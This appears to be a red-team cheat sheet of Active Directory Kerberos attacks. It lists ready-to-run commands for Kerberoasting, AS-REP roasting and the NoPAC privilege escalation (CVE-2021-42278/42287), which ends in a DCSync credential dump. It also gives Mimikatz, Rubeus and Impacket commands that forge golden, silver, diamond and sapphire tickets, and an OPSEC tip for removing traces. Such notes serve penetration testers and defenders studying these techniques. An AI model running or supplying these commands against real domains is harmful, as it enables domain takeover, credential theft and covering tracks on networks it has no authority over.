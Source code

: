 - Cerbero
	- `cerbero ask -u contoso.local/Anakin --aes ecce3d24b29c7f044163ab4d9411c25b5698337318e98bf2903bbb7f6d76197e -k 192.168.100.2 -vv`
- Silver Ticket services
	- psexec - CIFS
	- winrm - HOST & HTTP
	- dcsync (DC only) - LDAP
- Kerberoast/ASREPRoast (with CME)
	- `crackmapexec ldap –u ValidUser –p ValidPass –kerberoast targets.txt`
	- `crackmapexec ldap dc.domain.local -u ValidUser -p ValidPass --asreproast targets.txt`
- NoPAC - CVE-2021-42278 and CVE-2021-42287
	- Breakdown
		- Create a new computer account with any name
			- Requires SeMachineAccountPrivilege - by default all domain users can create up to 10 machine accounts
		- Clear the SPNs
		- Change the name to mimic the SamAccountName of a Domain Controller (without the "$")
		- Request TGT for the machine account
		- Change name of computer back to its original value
		- Request TGS for the LDAP service using the TGT
			- Account name no longer exists - Kerberos will append a "$" and now the name will match the DC
		- DCSync
	- Exploitation
		- `python noPac.py domain.local/username:password -dc-ip <DC IP> -dc-host <DC name> --impersonate <user to impersonate> -dump`
			- https://github.com/Ridter/noPac
			- OPSEC - remember to delete the machine account after execution

- Dominance Tickets
	- Golden Tickets
		- Mimikatz: `kerberos::golden /user:<user> /domain:<FQDN> /sid:<domain SID> /krbtgt:<NTLM hash> /ticket:golden.kirbi`
	- Silver Tickets
		- Rubeus: `Rubeus.exe silver /service:<SPN> /aes256:<preferred, but can use RC4> /user:<user> /domain:rlyeh.local /sid:<user SID>`
	- Diamond Tickets
		- Rubeus: `Rubeus.exe diamond /tgtdeleg /ticketuser:<user> /ticketuserid:<uid> /groups:<rid> /krbkey:<krbtgt>`
	- Sapphire Tickets
		- Impacket: `ticketer.py -request -user lowpriv -password 'pwd123' -impersonate administrator -domain rlyeh.local -domain-sid <sid> -aesKey <key> Administrator`